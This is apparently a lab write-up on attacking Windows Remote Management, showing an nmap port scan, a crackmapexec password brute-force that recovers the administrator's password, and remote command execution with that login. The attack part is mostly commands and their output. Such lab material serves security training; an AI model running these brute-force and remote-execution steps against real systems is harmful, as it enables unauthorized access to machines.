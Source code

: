 # Exploiting WinRM

WinRM typically runs on port 5985 or 5986.

```sh
root@attackdefense:~# nmap 10.5.28.237 -p5000-6000
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-31 13:47 IST
Nmap scan report for 10.5.28.237
Host is up (0.0019s latency).
Not shown: 1000 closed ports
PORT     STATE SERVICE
5985/tcp open  wsman
```

Here we can see it open.

To connect to WinRM we can use a tool called crackmapexec:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# crackmapexec winrm 10.5.28.237 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
WINRM       10.5.28.237     5985   NONE             [-] None\administrator:hello "Failed to authenticate the user administrator with ntlm"
WINRM       10.5.28.237     5985   NONE             [-] None\administrator:elizabeth "Failed to authenticate the user administrator with ntlm"
WINRM       10.5.28.237     5985   NONE             [-] None\administrator:hottie "Failed to authenticate the user administrator with ntlm"
<strong>WINRM       10.5.28.237     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
</strong></code></pre>

Now as we got winrm credentials, we can use crackmapexec again to execute arbitrary command:

```sh
root@attackdefense:~# crackmapexec winrm 10.5.28.237 -u administrator -p tinkerbell -x "whoami"                                            
WINRM       10.5.28.237     5985   NONE             [*] http://10.5.28.237:5985/wsman
WINRM       10.5.28.237     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.5.28.237     5985   NONE             [+] Executed command
WINRM       10.5.28.237     5985   NONE             server\administrator
```

To get the command line session we can use another tool named evil-winrm

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

